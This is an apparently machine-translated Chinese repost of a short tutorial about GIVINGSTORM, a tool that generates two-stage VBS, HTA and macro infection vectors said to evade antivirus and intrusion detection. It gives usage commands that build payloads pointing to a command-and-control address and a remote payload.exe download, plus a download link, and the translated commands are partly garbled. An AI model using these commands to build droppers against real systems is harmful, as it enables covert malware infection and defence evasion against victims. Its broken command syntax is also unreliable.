 # GIVINGSTORM:绕过 AV、IDS 和 IPS 的感染媒介

> 原文：<https://kalilinuxtutorials.com/givingstorm/>

[![GIVINGSTORM : Infection Vector That Bypasses AV, IDS, & IPS](img/6a568d3a9fcb467474f1bc9a856c4db0.png "GIVINGSTORM : Infection Vector That Bypasses AV, IDS, & IPS")](https://1.bp.blogspot.com/-cpI8VuatemQ/XxQfuWqMGHI/AAAAAAAAG6E/GbRAccl3u6s2tpO41cHtsiTi0a3kat-BwCLcBGAsYHQ/s1600/HTA%25281%2529.png)

GIVINGSTORM 使用起来轻而易举。简单地克隆目录，并把 cd 放入其中。C2 框架的开端。目前还没有 C2 的东西。产生双阶段 VBS 感染载体和双阶段 HTA 感染载体。

这些变量考虑了 C2 地址、Koadic/Empire 有效载荷和一些传送机制。有效载荷文件被输出到一个恰当命名的目录“有效载荷”中，如果该目录不存在，则创建该目录。

**安装&使用**

对于 HTA 有效载荷:python 3 givingstorm . py-n Windows-Upgrade-p b64 encoded payload-c amazon.com/c2/domain

*   **HTA 例子**

![](img/031928176e3c44fb67b4ce2337325b69.png)

对于宏子程序:python 3 givingstorm . py-n Windows-Upgrade-e amazon.com/final/payload.exe

*   **宏示例**

![](img/68ff5394df2e14e5c52d7cf6b505be76.png)[**Download**](https://github.com/nins3i/GIVINGSTORM)